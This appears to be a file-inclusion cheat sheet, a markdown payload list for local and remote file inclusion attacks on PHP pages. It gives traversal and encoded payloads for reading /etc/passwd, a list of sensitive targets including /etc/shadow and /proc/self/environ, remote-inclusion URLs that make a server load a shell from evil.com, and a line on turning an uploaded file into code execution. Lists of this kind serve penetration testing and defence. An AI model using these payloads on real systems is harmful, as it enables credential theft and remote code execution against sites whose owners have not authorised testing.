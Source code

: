 # 📂 local file inclusion

## LFI/RFI - Cheat Sheet

### Payloads

#### Basic LFI

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### Interesting Files

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### Basic RFI

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI To RCE Via Upload

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

## References

* [GitHub: LFI-RFI Payload](https://github.com/payloadbox/rfi-lfi-payload-list)
* [GitHub: Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)
* [LFI to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)
